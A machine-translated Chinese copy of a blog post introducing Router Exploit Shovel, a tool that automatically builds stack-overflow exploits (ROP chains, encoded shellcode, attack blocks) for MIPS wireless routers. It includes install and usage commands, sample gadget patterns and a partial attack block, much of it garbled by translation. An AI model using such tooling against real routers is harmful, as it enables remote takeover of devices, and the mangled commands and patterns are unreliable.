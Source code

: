 # 路由器利用铲:无线路由器上栈溢出类型的自动应用生成

> 原文：<https://kalilinuxtutorials.com/router-exploit-shovel-automated-application-generation-for-stack-overflow-types-on-wireless-routers/>

[![Router Exploit Shovel : Automated Application Generation for Stack Overflow Types on Wireless Routers](img/24df792990af0ddf704e5a3d8b71c985.png "Router Exploit Shovel : Automated Application Generation for Stack Overflow Types on Wireless Routers")](https://1.bp.blogspot.com/-_aOh6dEcuDI/XY9KDaG7c4I/AAAAAAAACqw/U03aiFYO2OguUB6icly78SPBjP2tEQByACLcBGAsYHQ/s1600/Screenshots.png)

**Router Exploit 铲子**是针对无线路由器上堆栈溢出类型的自动化应用程序生成。这是一个针对无线路由器上堆栈溢出类型的自动化应用程序生成工具。

该工具实现了漏洞利用的关键功能，它可以适应堆栈上数据填充的长度，生成 ROP 链，生成编码的外壳代码，最后将它们组装成一个完整的攻击代码。

用户只需将攻击代码附加到 POC 的溢出位置，即可完成利用远程代码执行的攻击。

该工具支持 MIPSel 和 MIPSeb。在 Ubuntu 16.04 64 位上运行。

**又念——[多洛斯斗篷:自动 802.1x 绕过](https://kalilinuxtutorials.com/dolos-cloak-automated-802-1x-bypass-network-penetration/)**

**安装**

确保你已经安装了 git、python3 和 setuptools。从我们的 Github 下载源代码:

**$ git 克隆 https://github.com/arthastang/Router-Exploit-Shovel.git**

**设置环境并安装依赖项:**

**$ cd 路由器-Exploit-铲子/
$ python3 setup.py 安装**

**用途**

**$ python 3 Router _ Exploit _ slope . py-h

用法:Router _ Exploit _ slope . py【选项】
选项:
-h，–help 显示此帮助信息并退出
-b BINARYFILEPATH，–binary file = binary file path
输入二进制文件路径
–ba = binarybase addr，–binarybase addr = binarybase addr
输入二进制基址，默认=0x00400000
-l**

**例如:**

**$ python 3 Router _ Exploit _ slope . py-b test _ binaries/mipse b-httpd-l test _ binaries/libuClibc-0 . 9 . 30 . so-o 0x 00478584**

**截图**

![](img/09c4313e72d9a44d4c385090eb8fa61f.png)

**代码结构**

**–Router _ Exploit _ slough . py #启动脚本
–databases/
|—ROP _ patterns/# ROP 模式的 YAML 文件
|—shellcodes/# shellcodes 的 YAML 文件
–example/# Nday 漏洞，完整报告和利用代码
–results/
|—ROP _ gadgets/# ROP gadgets 生成结果
|—Attack block . txt #攻击块生成结果
—ropper/#修改 ropper 模块获取所有小工具
–file bytes/。**

**ROP 链生成**

这个工具使用模式来生成 ROP 链。从常见 ROP 开发过程中提取模式。

使用正则表达式匹配来查找可用的小工具以填充链字符串。Base64 编码是为了避免重复字符转义。例如:

链结: (小工具 2)(小工具 1)bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb(睡眠)ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc(call _ code)\ x22 \ x44 \ x44 \ x44 \ x42 \ x54 \ x44 \ x44 \ x44 \ x44 \ x44 \ x44 \ x42 \ x54 \ x44 \ x54 \ x51 \ x44 \ x44 \ x44 \ x54 \ x44 \ x54 \ x44 \ x54 \ x44 \*)移动\\$t9\\，\ \ $ s 1；lw \\$ra\\，0x 24 \ \(\ \ $ sp \ \)；lw \\$s1\\，0x 20 \ \(\ \ $ sp \ \)；lw \\$s0\\，0x 1c \ \(\ \ $ sp \ \)；(.*)；Jr \ \ $ T9；再见\\$sp\\、\\$sp\\、0x 28；小工具 2:KC 4 qkwfkzgl 1 ifwkbcbcjhplcm 9 clcaxoybtb3 zlfwkdclcbcjhxoybqyxyifwkddk 7 #小工具 2:(。*)附加\\$a0\\，\\$zero\\，1；移动\\$t9\\，\ \ $ s 1；jar \ \ $ T9；call _ code:KC 4 qkw 1 vdmugxcr 0 ovwsifwkczi 7 igphbhigxcr 0 ots = # call _ code:(。*)移动\\$t9\\，\ \ $ s 2；jar \ \ $ T9；stack _ gadget:KC 4 qkwfkzgl 1 ifwkjclcbcjhnwxcwgmxodsliopbw 92 zsbcjhq 5 xcwgxcrmdsgamfscibjhq 5 ow = = # stack _ gadget:(。*)再见\\$s2\\，\\$sp\\，0x 18；(.*)移动\\$t9\\，\ \ $ s 0；jar \ \ $ T9；

**攻击拦截**

您可以在 results/attackBlocks.txt 中获得生成的攻击块。例如:

攻击块= " aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaayyyy \ x2 a \ xb3 \ x7c \ X60 \ x2 a \ xb2 \ xbd \ xfbbbbbbbbbbbbbbbbbbbbb \ x2 a \ xb3 \ x5c \ xa 0 cccccccc

[Download](https://github.com/arthastang/Router-Exploit-Shovel)